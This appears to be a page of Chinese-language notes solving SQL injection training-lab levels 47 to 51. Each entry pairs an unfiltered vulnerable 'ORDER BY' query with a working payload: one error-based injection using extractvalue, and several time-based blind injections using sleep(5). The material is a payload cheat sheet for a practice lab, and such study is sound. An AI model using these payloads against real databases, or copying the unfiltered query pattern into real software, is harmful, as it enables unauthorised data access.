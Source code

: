 ### 47、报错注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY '$id';
# 过滤语句
无
# Payload
?sort=2' and extractvalue(1,concat(0x7e,(database()),0x7e)) %23
```

### 48、时间盲注 [  ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY $id;
# 过滤语句
无
# Payload
?sort=1 and if(((database())='security'),sleep(5),1)--+
```

### 49、时间盲注 [ ' ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY '$id';
# 过滤语句
无
# Payload
?sort=1'and if((database()='security'),sleep(5),1)--+
```

### 50、时间盲注 + 过滤 -- [ ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY $id;
# 过滤语句
无
# Payload
?sort=1%20and%20if((database()=%27security%27),sleep(5),1)#
```

### 51、时间盲注 [ ' ]

```mysql
# SQL语句
SELECT * FROM users ORDER BY '$id';
# 过滤语句
无
# Payload
?sort=1'and if((database()='security'),sleep(5),1)--+
```

